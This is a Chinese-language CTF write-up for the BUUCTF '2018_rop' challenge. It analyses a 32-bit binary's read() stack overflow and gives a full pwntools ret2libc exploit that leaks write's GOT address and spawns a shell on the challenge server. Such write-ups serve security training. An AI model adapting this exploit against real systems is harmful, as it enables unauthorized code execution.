

# 知识点

ret2libc


# 题目分析

1. 检查保护情况，32位程序，开启NX保护。

   ```bash
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，执行漏洞函数，存在read函数栈溢出漏洞。

   

3. 没有提供后门函数，提供了write函数，泄露write函数的got表地址，然后ret2libc即可。


# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./2018_rop')
io = remote('node4.buuoj.cn', '29434')
elf = ELF('./2018_rop')
libc = ELF('./libc-2.27.so')

main = elf.sym['_start']
write_plt = elf.plt['write']
write_got = elf.got['write']

# leak write
payload = 'A' * 0x88 + 'dead' + p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)
io.send(payload)
write_real = u32(io.recv(4))
success('write_real = ' + hex(write_real))

# libc
libc_base = write_real - libc.sym['write']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh\x00').next()

# ret2libc
payload = 'A' * 0x88 + 'dead' + p32(system) + p32(0) + p32(binsh)
io.send(payload)

io.interactive()
```

